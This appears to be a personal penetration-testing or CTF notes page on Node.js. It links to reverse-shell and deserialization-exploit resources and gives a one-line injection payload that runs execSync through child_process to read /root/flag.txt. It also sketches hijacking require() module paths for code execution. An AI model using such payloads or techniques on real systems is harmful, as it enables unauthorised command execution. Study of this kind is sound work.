 # NodeJS


[Node.js](https://nodejs.org) is a [[Useful_Javascript]] framework, or web technology. Or external links:
[XinYminutes JS](https://learnxinyminutes.com/docs/javascript/) and 


Node application will almost always accepts [[JSON]]


## Tools

[Javascript beautifer](https://beautifier.io/) for the JS online beautifier.


## Shells

[Shell](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py)
[Node.js Reverse shells](https://medium.com/dont-code-me-on-that/bunch-of-shells-nodejs-cdd6eb740f73)

## Deserialization

[Deserialization](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) blog

## Globals
```javascript
__dirname
__filename
exports
module
require()
```


## Node.js Payload
```javascript
"return process.mainModule.require('child_process').execSync('cat /root/flag.txt');"
```

## Vulnerable Require() 

Because Node.js `require()` allows for relative paths for module cache  if filesystem control is in your favour hijack the path `badVersionOfCalledModule` module and force that on any called functions from theat module to provide *"blazely fast"* \*cough\* code execution. 
[Freecode camp Node.js Require() ](https://www.freecodecamp.org/news/requiring-modules-in-node-js-everything-you-need-to-know-e7fbd119be8/)
[Honeybadger.io - Node.js Cache](https://www.honeybadger.io/blog/nodejs-caching/)

Get all the local paths of modules
```bash
node 
> module.paths
```

## Appendix

[Node JS security Course](https://github.com/ajinabraham/Node.Js-Security-Course)


## References

[Node.js Reverse shells](https://medium.com/dont-code-me-on-that/bunch-of-shells-nodejs-cdd6eb740f73)
[Digital Ocean Node.js Module creation](https://www.digitalocean.com/community/tutorials/how-to-create-a-node-js-module)
[XinYminutes JS](https://learnxinyminutes.com/docs/javascript/)
[Javascript beautifer](https://beautifier.io/)
[Node.js](https://nodejs.org)